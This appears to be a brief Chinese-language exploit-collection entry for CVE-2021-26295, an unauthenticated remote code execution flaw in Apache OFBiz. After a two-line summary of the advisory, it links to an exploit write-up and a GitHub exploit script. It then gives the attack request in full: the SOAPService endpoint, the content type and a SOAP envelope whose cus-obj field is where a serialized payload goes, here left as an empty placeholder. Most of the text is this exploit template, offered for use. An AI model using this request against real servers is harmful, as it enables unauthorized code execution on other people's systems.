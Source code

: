 ## CVE-2021-26295

2021年03月22日，SecList发布了Apache OFBiz的风险通告，漏洞编号为CVE-2021-26295，漏洞等级：高危，漏洞评分：9.8。
OFBiz 是 Apache下属的企业ERP系统开发框架，该漏洞能允许未授权的远程攻击者直接在OFBiz服务器上执行任意代码。

## exp参考

- https://xz.aliyun.com/t/9345
- https://github.com/r0ckysec/CVE-2021-26295/blob/main/cve-2021-26295_exp.py

```
http://XXX/webtools/control/SOAPService

Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ser="http://ofbiz.apache.org/service/">  
  <soapenv:Header/>  
  <soapenv:Body>
    <ser>
      <map-Map>
        <map-Entry>
          <map-Key>
            <cus-obj>{}</cus-obj>
          </map-Key>  
          <map-Value>  
            <std-String/>
          </map-Value>
        </map-Entry>
      </map-Map>
    </ser>
  </soapenv:Body>
</soapenv:Envelope>
```

